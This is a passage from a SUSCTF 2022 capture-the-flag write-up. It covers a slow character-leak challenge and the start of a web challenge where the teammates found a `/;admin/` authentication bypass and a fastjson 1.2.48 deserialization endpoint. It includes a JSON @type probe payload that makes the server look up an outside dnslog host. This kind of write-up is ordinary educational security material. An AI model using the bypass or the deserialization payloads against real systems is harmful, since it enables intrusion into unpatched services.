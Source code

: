 I feel that there should be a faster way, such as leaking all characters within 5 seconds. If anyone knows how to do it, please leave a comment to point it out. But anyway, I didn't think about it so much when I was doing this problem, so I submitted it manually one by one, spending the longest time on Google reCAPTCHA. Fortunately, the admin bot has three streams, otherwise the images will be added with noise directly towards the end, and it will be super difficult for the human eye to read...

Fortunately, the flag for this problem is not long. It took almost 20 minutes to submit the URL and pass the verification, slowly getting the characters out.

When I wrote this, I suddenly thought that I should run all the characters without adding a prefix first, so I can know which characters are in the flag, and the character set may be reduced to more than 10, which will be three times faster... I didn't think of it at the time, I should remember it next time.

(Supplement: I looked at the [official writeup](https://github.com/susers/SUSCTF2022_official_wp/blob/main/checkin%20%26%20ez_note%20%26%20rubbish_maker_zh.md), and it seems that it is possible to run all the characters in one go, maybe I didn't test it well at the time, and the official answer is also to submit multiple times, not all within 5 seconds.)

## web/baby gadget v1.0(14 solves)

![](/img/susctf-2022-writeup/p3.png)

This problem has a login page, and my teammate found that using `/;admin/` can bypass it and enter the backend. The backend is quite simple, just like the screenshot above, and there is a place to download the file `lib.zip`, which contains the following packages used:

1. commons-lang.jar
2. fastjson-1.2.48.jar
3. flex-messaging-core.jar
4. quartz.jar

And the description of the backend is also obviously related to fastjson:

> Fastjson is a Java library that can be used to convert Java Objects into their JSON representation. It can also be used to convert a JSON string to an equivalent Java object. Fastjson can work with arbitrary Java objects including pre-existing objects that you do not have source-code of.

There is also an endpoint that can POST data:

```
POST /admin/mailbox.jsp

inpututext=abcde
```

This version of fastjson has a deserialization vulnerability, which can refer to this article: [Red Team Arsenal: fastjson less than 1.2.68 full vulnerability RCE exploit](https://zeo.cool/2020/07/04/%E7%BA%A2%E9%98%9F%E6%AD%A6%E5%99%A8%E5%BA%93!fastjson%E5%B0%8F%E4%BA%8E1.2.68%E5%85%A8%E6%BC%8F%E6%B4%9ERCE%E5%88%A9%E7%94%A8exp/).

Next, my teammate found that `inputtext` can contain a JSON string that the server will parse using fastjson, like this: `inputtext={"a":123}`, but I tried this payload and didn't see any results:

``` json
{"abc":{"@type":"java.net.Inet4Address","val":"1486fo.dnslog.cn"}}
```
